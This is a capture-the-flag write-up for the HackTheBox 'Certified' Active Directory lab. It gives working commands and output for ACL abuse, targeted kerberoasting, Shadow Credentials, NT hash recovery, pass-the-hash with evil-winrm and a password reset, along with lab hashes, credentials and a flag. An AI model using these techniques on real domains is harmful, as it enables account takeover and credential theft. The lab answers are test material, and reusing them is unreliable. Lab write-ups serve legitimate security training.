



<div class="callout callout-info">

**Box Info**

**Platform:** HackTheBox, **OS:** Windows Server 2019 (AD, `certified.htb`, `DC01`), **Difficulty:** Medium, **Released:** 2024-11-02, **IP:** `10.10.11.41`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Assumed breach start: `judith.mader : judith09`. BloodHound shows `judith.mader` has **WriteOwner** on the `management` group.
2. Take ownership of `management` (`bloodyAD set owner`), grant `judith.mader` **GenericAll**, add her to the group. `management` now has **GenericWrite** over `management_svc`.
3. **Shadow Credentials** attack (`pywhisker`) against `management_svc` → PKINIT TGT (`gettgtpkinit.py`) → NT hash (`getnthash.py`). Pass-the-hash with `evil-winrm`. User flag.
4. `management_svc` has **GenericAll** over `ca_operator`: reset its password, then repeat the Shadow Credentials trick to recover `ca_operator`'s NT hash too.
5. `certipy find -vulnerable` flags the `CertifiedAuthentication` template as **ESC9** (no security extension). Update `ca_operator`'s `userPrincipalName` to `Administrator`, request a certificate under that template, PKINIT as `Administrator`, `wmiexec`. Root flag.

</div>

<div class="callout callout-key">

**Credentials and Flags**

| Where | Value |
| --- | --- |
| given (assumed breach) | `judith.mader : judith09` |
| `management_svc` (shadow creds → NT hash) | `a091c1832bcdd4677c28b5a6a1295584` |
| `ca_operator` (password reset via GenericAll) | `BaphometRulz420` |
| `ca_operator` (shadow creds → NT hash) | `d707c541a184e6365c218730df12ada1` |
| `user.txt` | `C:\Users\management_svc\desktop\user.txt` |
| `root.txt` | `C:\Users\Administrator\Desktop\root.txt` |

</div>

---

## Overview

Certified was HackTheBox's first assumed-breach box, and it earns that reputation: there's no web app or public exploit here, just a low-privileged domain credential and a BloodHound graph. The whole path is ACL abuse chained three times over. `judith.mader`'s **WriteOwner** on the `management` group gets escalated to **GenericWrite** over `management_svc`, which in turn has **GenericAll** over `ca_operator`. Two separate rounds of the **Shadow Credentials** technique (`pywhisker` plus PKINIT) turn that write access straight into NT hashes without ever needing to crack a password. The finish is **ESC9**, a certificate template published without the security extension, which lets `ca_operator` change its own `userPrincipalName` to `Administrator` and enroll for a certificate that authenticates as the real Administrator. It's a clean, modern tour of the BloodHound-to-Certipy pipeline.

Related ACL abuse / BloodHound privesc chains: [EscapeTwo](/writeups/hackthebox/windows/easy/escapetwo/), [VulnNet Active](/writeups/tryhackme/windows/medium/vulnnet-active/), [Reset](/writeups/tryhackme/windows/hard/reset/). Related Shadow Credentials: [Reset](/writeups/tryhackme/windows/hard/reset/), [EscapeTwo](/writeups/hackthebox/windows/easy/escapetwo/). Related AD CS / ESC-series abuse: [EscapeTwo](/writeups/hackthebox/windows/easy/escapetwo/), [Anubis](/writeups/hackthebox/windows/insane/anubis/).

---

## Full Walkthrough

### About

`Certified` is a medium-difficulty Windows machine designed around an assumed breach scenario, where credentials for a low-privileged user are provided. To gain access to the `management_svc` account, ACLs (Access Control Lists) over privileged objects are enumerated leading us to discover that `judith.mader` which has the `write owner` ACL over `management` group, management group has `GenericWrite` over the `management_svc` account where we can finally authenticate to the target using `WinRM` obtaining the user flag. Exploitation of the Active Directory Certificate Service (ADCS) is required to get access to the `Administrator` account by abusing shadow credentials and `ESC9`.

___

### Enumeration

### Nmap scan

```bash
Host is up, received user-set (0.014s latency).
Scanned at 2026-09-08 05:00:19 EDT for 150s
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2026-09-08 16:02:02Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-headers: 
|   Content-Type: text/html; charset=us-ascii
|   Server: Microsoft-HTTPAPI/2.0
|   Date: Tue, 08 Sep 2026 16:02:50 GMT
|   Connection: close
|   Content-Length: 315
|   
|_  (Request type: GET)
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49693/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49694/tcp open  msrpc         syn-ack Microsoft Windows RPC
49695/tcp open  msrpc         syn-ack Microsoft Windows RPC
49745/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### SMB Enumeration

with the provided credentials `judith.mader:judith09` using `netexec` we can list available shares on the network, from here we can see there are some default shares that are available to us that we only have `READ` priviledges on.

```bash
└─[$] nxc smb certified.htb -u 'judith.mader' -p 'judith09' --shares                                                [5:07:55]
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.186  445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.129.231.186  445    DC01             [*] Enumerated shares
SMB         10.129.231.186  445    DC01             Share           Permissions     Remark
SMB         10.129.231.186  445    DC01             -----           -----------     ------
SMB         10.129.231.186  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.231.186  445    DC01             C$                              Default share
SMB         10.129.231.186  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.231.186  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.231.186  445    DC01             SYSVOL          READ            Logon server share 

```

### BloodHound Enumeration

By using `bloodhound-python` we can authenticate with the `judith.mader` user on the domain to obtain information from the domain controller from groups,gpos,users,machines, and more.

```bash
└─[$] bloodhound-python -u 'judith.mader' -p 'judith09' -d certified.htb -ns 10.129.231.186 -c All --zip            [5:08:25]
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: certified.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.certified.htb:88)] [Errno 111] Connection refused
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 10 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.certified.htb
INFO: Done in 00M 03S
INFO: Compressing output into 20260908050902_bloodhound.zip
```



After importing the files that we got from `bloodhound-python` into `bloodhound` we can search up the user `judith.mader` and see that they are part of a group on the domain called `Management`.  The group `Management` has `GenericWrite` over the service account `MANAGEMENT_SVC`, and from `MANAGEMENT_SVC` they are a  member of `Remote Management Users` which means they can utilize login types like `winrm`. 

So this would be our priviledge escallation chain.

`judith.mader` -> `WriteOwner (management)` -> `GenericWrite` -> `management_svc`.

Since out time is not synced with the domain controller we need to utilize a combination of `faketime` and `ntpdate` to fetch the time from the domain controller.

```bash
└─[$] faketime "$(ntpdate -q certified.htb | cut -d ' ' -f 1,2)" python3 ~/ADTools/targetedKerberoast/targetedKerberoast.py -u 'judith.mader' -p 'judith09' -d certified.htb --dc-ip 10.129.231.186 --request-user 'management_svc'     
[*] Starting kerberoast attacks
[*] Attacking user (management_svc)
[+] Printing hash for (management_svc)
$krb5tgs$23$*management_svc$CERTIFIED.HTB$certified.htb/management_svc*$e66fe3d170c6eed95e58b7dec9cede6c$27b46fba4a325d4cc9016bac354adb446f785d1c94b8defa4f1ca458ca99944facc85277408323002ac18ec1f616a735a2329c737f1109bb66de0cc13789c7953527efdf0e36e93111139a19616b4e2dfd6111d2fa05d3282d0910f968dfdb6ce63b44dc4c89a81cc19207fc3db2b74575196c8801717dedabb0df89c0bb5ca86bd5baf83921a6eb8901f9e4286ce69ec3f122bc802054a4460ee986d8a482d583bedcdd8ab9a6dd4593c2a3433d45bfd94ed5315d0de30283269571f781a1fd9c013a5337c4f8c7410955eb65b71ee9aac84b50a94850453a87dc498c2c6c67b4a657a1ce27673c0a85abe4ca236498a32fbf538822a1e43921fda8c1a37d538ea4065b768223066b9f0dfd19e1724377c4c5182a703b08944f765480c861ce47294ce76a0a3afe904f6d448725dd63a84078a2b05d4b6d0f5ebab88d9cef5929d1fb5e18e0dd063a040b36b9ea4d74d9cebe0a782937e2be103856ecbe4d6291bc5555c62c3e19ad2d8b3f874de133bc4c38c78ab7acacf77de294d8f02328ca19711d376f2571b950d9e82c7c267d7941396bfa8fd51bf48ea21b574dd59d721b4a5246f0ace93d0685659f66e6e6aaecd969ce52e9f72e314295744a31ce5a4aeed7ced2df9f48ffbe83481917392286a3689e723a827d0d5b895b97243924802615a5afcf25b7dad93e37bd057602112b83cb33daf32a0f34f5ad4d81a3ba0a50f0bf70fcbb83e49115f11145128a2206908351a6d9b5cf5b5ebaee92d27482996a8f7310b3b5d66c756b40efd7fd93316d692a08c83fb25ec0999cd8a1331ad1d608ee83a19536dc38323ac59a9bff8100bda5e16b1ff9c94a4fd57f21095f0fc74b10ed90afe3fe9eecda9ec4145e87d53fb0deeed85947b1ff164f1fbad72ec2ffacda1c5d4915ca0320b39a105c2e47e0a2165a6889952a30e734e4f3e0a3b97c5d15fdf5f815d0f9ceb88f49df0e2e8fedf0c2972b262494cadd00ffce4f28dde215233a2f150a4bc41a4bb00647371fa530f4164aef0bd21ff52f3b17376e0b08b535a1406bb541aaf99f7365baa5e0b95a603ae3d6810ce532b724b12837fbc52a118ca1caa52696150231c5912ba1d9126b9830f45a0156f1b9794f478fc380ef6012ee4fa9878eab65d349e84ee51b50d01ef5d36647d2532a6fad68d1c8c3fc2e99ed195346ce590e65535e46a2d18c86fb7d6dd2d2ca6db3ffb88c76913a413f6777b8f72e3ff2e16bb9d82403057f635b29f69fc65009f1badbe6a6724b4ae1a36dc948d428038922e1714e8e45e054eae4f96a50bfab7c31133845878decd8e1fdf567d791701922cc723970fdb7511e87ee4ecdd8e400f5916f2173924d3d3d8da393aab9a1ef28233bd3402b983083c91f76ddc523c6f34b99fa7fc9e2f5a4c09e344937a471a2d7f479a085a4933ecc7812a9a6fd0b6b0c8a00937deb70d5376e67c3f5811c3b6c86622263e60332fa196900f23dfdcac06cadc46c7a0b1805b3de33c5386e6db6f734b793c9c0a05b7e0c69b817fd97d9ad039ccebe0ee7777ad378f40eeabd15a88675dba3d19756
```

Here we have specified to `kerberoast` the user `management_svc`,  although I thought this might not be directly the intended way. 

### Writing `judith.mader` as owner of `management`.

We can use `bloodyAD` to write directory to the `management` group to set `judith.mader` as the owner.

```bash
─[$] bloodyAD --host "10.129.231.186" -d "certified.htb" -u 'judith.mader' -p 'judith09' set owner management 'judith.mader'
[+] Old owner S-1-5-21-729746778-2675978091-3820388244-512 is now replaced by judith.mader on management
```

This also provided us an SID now we dont need to pay attention to that because that SID is what's tied to another object on the domain wether it be a user or group but just so we have an idea we can look up this SID to see how the previous owner was.



here we can see the previous owner was the `domain admins` group on the domain. 


From here we can give `judith` full control over this group on the domain.

```bash
python3 ~/ADTools/impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'judith.mader' -target 'management' 'certified.htb'/'judith.mader':'judith09'

Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20260908-053804.bak
[*] DACL modified successfully!
```

Lets break down what we did here.

- `-action`: This provides the action we wish to make in this case we want to `write` to this target group
- `-rights`: Here we specify what rights we want to give `judith` over this group in this case we are giving them `FullControl` over this group.
- `-inheritance` :Apply these permissions not just to the specific folder/container I am targeting, but also automatically pass them down to everything inside it.
- `-principal`: this is the `sAMAccountName` of the specified user in this case `judith`.
- `-target`: is the target group in question `management`

### How to do this with `bloodyAD`

The command below allows us to write `judith.mader` as the owner of `management`.

```bash
└─[$] bloodyAD --host "10.129.231.186" -d "certified.htb" -u "judith.mader" -p "judith09" set owner 'management' 'judith.mader'
[!] S-1-5-21-729746778-2675978091-3820388244-1103 is already the owner, no modification will be made
```

### Granting `GenericAll`

Now that we are the owner of that group we need to grant ourselves `GenericAll` which gives us `all` permissions over the group meaning that we can do whatever we want with it now, like ad ourselves to the group.

```bash
└─[$] bloodyAD --host "10.129.231.186" -d "certified.htb" -u "judith.mader" -p "judith09" add genericAll 'management' 'judith.mader'
[+] judith.mader has now GenericAll on management
```

```bash
└─[$] bloodyAD --host "10.129.231.186" -d "certified.htb" -u "judith.mader" -p "judith09" add groupMember "management" 'judith.mader'
[+] judith.mader added to management
```

Now we have successfully added ourselves to the group `management`, one thing we can do now is clear the databse in bloodhound then use `bloodhound-python` again to get new up to date information that we can use to continue our chain to privesc through the domain.

#### Alternate verify

we can also verify this by querying `ldap`.

```bash
└─[$] ldapsearch -x -D "CN=Judith Mader,CN=Users,DC=certified,DC=htb" -w "judith09" -H ldap://dc01.certified.htb -b "DC=certified,DC=htb" "(sAMAccountName=judith.mader)" memberOf

# extended LDIF
#
# LDAPv3
# base <DC=certified,DC=htb> with scope subtree
# filter: (sAMAccountName=judith.mader)
# requesting: memberOf 
#

# Judith Mader, Users, certified.htb
dn: CN=Judith Mader,CN=Users,DC=certified,DC=htb
memberOf: CN=Management,CN=Users,DC=certified,DC=htb

# search reference
ref: ldap://ForestDnsZones.certified.htb/DC=ForestDnsZones,DC=certified,DC=htb

# search reference
ref: ldap://DomainDnsZones.certified.htb/DC=DomainDnsZones,DC=certified,DC=htb

# search reference
ref: ldap://certified.htb/CN=Configuration,DC=certified,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
```



awesome! now it says that we are a member of `management`, which means that now that we are a member of `management` we have `GenericWrite` over the user `management_svc` which without even looking at the abuses that we can do you can already tell that this means that we can actually do a few things. One of which is we can attempt to `kerberoast` the target account.

### Kerberoasting

```bash
└─[$] faketime "$(ntpdate -q certified.htb | cut -d ' ' -f 1,2)" python3 ~/ADTools/targetedKerberoast/targetedKerberoast.py -u 'judith.mader' -p 'judith09' -d certified.htb --dc-ip 10.129.231.186 --request-user 'management_svc'          
[*] Starting kerberoast attacks
[*] Attacking user (management_svc)
[+] Printing hash for (management_svc)
$krb5tgs$23$*management_svc$CERTIFIED.HTB$certified.htb/management_svc*$6ea55f49c428cb11ee0979ce838aab02$5a8f5a7ab8731ca9daeabc624e9479ffa4cfa6c12bbf8634aaf38a534f4d034f9953b559851f3c2c981478ec9275c0658f935760c8f9401caff30ac904543959512700973f2174420a3822780a8ec242a33f669dc205ce1d6e83a75b631f43cd86cbafe45509f568fb8218049ebc4b32c3ae271af27d10f71b053fe13b10cebd8f7d90219cc863ddc2cd5798403dd5d61fcddaa756f69ed6968a66fa22796bd1a45360933556a8f42c9298b9abca6f2dc9e96010c1a335515a96a2255bdadc23bc1c73a82eb4a41f0160454c61dbc39a82f8a56795b3d52f39aace0c7676f9dbad6aeb94160160fe9bbad89531f7948992513add586c98d3ed1a9ece9cc6fda1189dd391a7c17f62b421c377305e3c737a2ad76b0d92b2a2b94bc7f230cae001df54ed453bff9b4b88a025544e5f505605ad38ff29afa85cc356f9efa84a153fff1deeca73cc0e8781b36fd91e2db60bfd83088bcc784cae28a71b37b6731aac94869be64268e54d89c39a088106169ffd827cdb678cb3bc3ce3ac9ef7dde6b80c7bc9023c325a094c815ed25011f6fd0a09e98f8a4c6918740287ccc775dc8aacbcd48af9725520a16c6de3d0efcd17b415f4353eb9d5c40919c7dcc6b4cd60cfcd6f33beb0f32b13bfb0085e9cc5e7ec067b0492ec5681833d401950f3ae03454ace7e36b3b2df7d76ab9b2c7235c3533c0e3ab41dc1bb1417168cf390eb76ace80a487457b9c7a45a77e675bb29f5fae0cbe55b1bf377502a1fd0ba57e3fcfadbdb4d844c76ece05ac7468eb255e5b8ffd51f00d1de654a36608fa3f5fc9162b7dbfbd1c3471051fe77673042734186b13c7f10ed513f0ac296a28c9e8db3ba4987e7d02436b636c507c91de136d1309d9809a58f59e26960dc611fc4543edeaf096e8cc86b3f5a425e4b9d01c9e0377ecc731d26dc67b410d1a4ad3faab3b3e14c29fd73495225e2a7af3de8665ebe483b086f8f912e042c4c885ccb98b3ffdea30ed0a79f04b73698cc3b728ac7de14f6928674a3ae2067c54d1acdc45b3423db86b4f4dfd0077bd8734f65af57d2c060513cc04c9b94d2bb6b07a7cdd0b66cbfa884e8f533de8cd04fc214646ede70d2cd7a468c067289e6687c4959b0c79a761abe6326e685588ee32c52f024d083f68697424e0e38eaffa462fa99d901501fc80c5dd9e059c1a752b31824176deedcbd704e1dff840e258aeff28bd2593ff07895e9d0c3d7d34239b26bab655ef98b94193b46261298c31e8e98ffd53846fbceb364af2ce875ab1653e635aadc7a48d27f78149c9449d809767690453db8e671be8c1ce11280f948320bce501598e253205459a4be18e24f90b0d65e800eb9c050e35eacae41a410fdf10b69cc59cc27e18e98112f9050580f180e6c4f9d2aa163b706395993bb241dfe65962e7bbe5a787a7d6a81f3e24f4a9f418c507ec16dd98d3166f8ee5251445c0a9ea5021c53f83eda96f0f9712ce1237cb7c298312fa1580de5767360ccc53fd705c964a6f53dd0e8215c4712e39ada4f8c16542004f7d56b9c29bb44867d9b94e039f35ec4802f8160a54e
```

Now I know I did this before but going through the proper chain is what matters the most. I attempted to crack this hash and it just didn't work. There is another form of attack that we can do here called `Shadow Credentials`, A shadow credentials attack is when a attacker attempts to exploit `msDS-KeyCredentialLink` attribute or a hidden alternative way to login into a account on the domain. in this case the `management_svc` account. We can do this by using `bloodyAD` once more.

```bash
└─[$] python3 ~/ADTools/pywhisker/pywhisker.py -d "certified.htb" -u "judith.mader" -p 'judith09' --target 'management_svc' --action "add"
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 9311f149-65f4-c5af-a523-4d2134f26143
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: smn98btI.pfx
[*] Must be used with password: XCbvVdGvENKesArZzEeG
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

Now whjat we can do is use `certipy` with this certificate to obtain a `TGT` on behalf of this user.

#### Installation

```bash
`pipx install certipy-ad`
```

```bash
└─[$] faketime "$(ntpdate -q certified.htb | cut -d ' ' -f 1,2)" certipy auth -pfx smn98btI.pfx -username 'management_svc' -domain 'certified.htb' -dc-ip '10.129.231.186' -password 'XCbvVdGvENKesArZzEeG'
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'management_svc@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'management_svc.ccache'
[*] Wrote credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Got hash for 'management_svc@certified.htb': aad3b435b51404eeaad3b435b51404ee:a091c1832bcdd4677c28b5a6a1295584
```

Now from here we can attempt to get the `NTLM` hash of the user `management_svc`.

```bash
└─[$] export KRB5CCNAME=management_svc.ccache

└─[$] faketime "$(ntpdate -q certified.htb | cut -d ' ' -f 1,2)" python3 ~/ADTools/PKINItools/getnthash.py -key 'a091c1832bcdd4677c28b5a6a1295584' 'certified.htb/management_svc'                                 
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
[-] Wrong key length
```

Looks like something had went wrong, we can try using instead of `certipy` we can use `gettgtpkinit.py`.

```bash
└─[$] faketime "$(ntpdate -q certified.htb | cut -d ' ' -f 1,2)" python3 ~/ADTools/PKINItools/gettgtpkinit.py -cert-pfx smn98btI.pfx 'certified.htb/management_svc'  -pfx-pass 'XCbvVdGvENKesArZzEeG' management_svc.ccache 
2026-09-08 13:35:02,178 minikerberos INFO     Loading certificate and key from file
2026-09-08 13:35:02,239 minikerberos INFO     Requesting TGT
2026-09-08 13:35:18,127 minikerberos INFO     AS-REP encryption key (you might need this later):
2026-09-08 13:35:18,127 minikerberos INFO     55e1c2a26ade268161521f6a0786bb36a9ee0392ccd82e987e51c78cc8e6972f
2026-09-08 13:35:18,129 minikerberos INFO     Saved TGT to file
```

this will now re-create the kerberos ticket "management_svc.ccache", which we can export to utilize the key this provided us in conjunection with `getnthash.py` from the same toolkit to get the `NTLM` hash of the `management_svc` user

```bash
└─[$] faketime "$(ntpdate -q certified.htb | cut -d ' ' -f 1,2)"  python3 ~/ADTools/PKINItools/getnthash.py -key '55e1c2a26ade268161521f6a0786bb36a9ee0392ccd82e987e51c78cc8e6972f' 'certified.htb/management_svc'
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```

### Lateral movement

Now that we have the users `nthash` we dont nessessarly need to worry about cracking it because `NTLM` hashes are suseptable to an attack called `PASS THE HAS (PTH)`, why is that?

`NT` hashes are suseptable to `pass the hash` attacks because windows does not use your actual password to authenticate you to network services, instead it turns your password into a NT hash. This makes the `NT` hash act exactly like a duplicate key.

Here is why it is vulnerable:

- **The system accepts the key, no questions asked:** When a remote server asks for proof of who you are, your computer just shows it the NT hash. The server doesn't check if you know the password; it only checks if you have the hash.
- **It never changes:** The key is completely "unsalted" (unrandomized). This means your password will always create the exact same hash, and it never expires or alters on its own.
- **It is easily stolen:** If a hacker gets administrative access to a computer you've logged into, they can dig into the computer's memory and scoop up that NT hash.

___

We can utilize `evil-winrm` to authenticate and remote in into `dc01.certified.htb`.

```bash
└─[$] evil-winrm -i certified.htb  -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'                        [6:38:32]
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> 
```

why can we remote in again? Well if we reference `bloodhound` once more we can see that the user `management_svc` service account is part of the `Remote Management Users` group.

### User flag

```powershell
*Evil-WinRM* PS C:\Users\management_svc\desktop> cat user.txt
7a39e0c724c733cd1ee1ad66be189f9a
*Evil-WinRM* PS C:\Users\management_svc\desktop> 
```

### Priviledge Escallation

Going back to `bloodhound` we can see that the account `management_svc` has `GenericAll` over the account `ca_operator` on the domain. Which means we basically have full control of this users configurations we can manage the user in whatever way we want, which in this case I am going to change their password.

```powershell
└─[$] bloodyAD --host "10.129.231.186" -d 'certified.htb' -u 'management_svc' -p ':a091c1832bcdd4677c28b5a6a1295584' set password 'ca_operator' 'BaphometRulz420'
[+] Password changed successfully!
```

Now from here I attempted to query the domain for groups that this user is part of but found out that they are not part of any groups.

```powershell
└─[$] ldapsearch -x -H ldap://10.129.231.186 -D "ca_operator@certified.htb" -w "BaphometRulz420" -b "DC=certified,DC=htb" "(&(objectCategory=group)(member=CN=ca_operator,*))" cn  

# extended LDIF
#
# LDAPv3
# base <DC=certified,DC=htb> with scope subtree
# filter: (&(objectCategory=group)(member=CN=ca_operator,*))
# requesting: cn 
#

# search reference
ref: ldap://ForestDnsZones.certified.htb/DC=ForestDnsZones,DC=certified,DC=htb

# search reference
ref: ldap://DomainDnsZones.certified.htb/DC=DomainDnsZones,DC=certified,DC=htb

# search reference
ref: ldap://certified.htb/CN=Configuration,DC=certified,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 4
# numReferences: 3
```

Going back for a second I just rememberd that since we have `GenericAll` ACL over `ca_operator`  we have full control of the target object, therefore the `GenericWrite` as well, we can use the same method as earlier with the shadow credentials attack to obtain the `NT HASH` of `ca_operator`.

```powershell
└─[$] python3 ~/ADTools/pywhisker/pywhisker.py -d "certified.htb" -u "management_svc" -H 'a091c1832bcdd4677c28b5a6a1295584' --target 'ca_operator' --action "add"
[*] Searching for the target account
[*] Target user found: CN=operator ca,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: a5afd4f7-62c7-95cc-7fe6-8737e8258701
[*] Updating the msDS-KeyCredentialLink attribute of ca_operator
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: fUInHHrv.pfx
[*] Must be used with password: ofFmTUaJDnke9Z7MuOfW
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

